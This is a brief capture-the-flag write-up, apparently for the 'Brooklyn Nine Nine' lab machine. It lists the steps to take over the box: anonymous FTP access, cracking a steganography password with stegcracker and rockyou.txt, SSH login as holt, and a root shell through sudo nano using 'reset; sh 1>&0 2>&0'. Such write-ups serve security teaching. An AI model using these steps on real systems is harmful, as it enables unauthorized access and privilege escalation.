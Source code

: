 # Brooklyn Nine Nine
```
export ip = 10.10.149.39
```
## SCAN
```
21 FTP : Anonymous Loing Allowed
80 HTTP 
```

## FTP
```
1. ftp 
2. open export_ip
3. get nate_to_jake.txt
--> ID : holt 
```

## WEB
```
1. wget http://{{export_ip}}/brooklyn99.jpg

2. stegcracker brooklyn99.jpg {rockyou.txt}

3. brooklyn99.jpg.out
--> password : fluffydog12@ninenine
```

## Gaining Access
```
1. ssh holt@export_ip 
: password is fluffydog12@ninenine

2. read user.txt
```

## Privilige Escalate
```
1. sudo -l
2. /bin/nano
3. sudo /bin/nano
[SUID]
-- nano
-- ^R^X
-- reset; sh 1>&0 2>&0

4. read /root/root.txt
```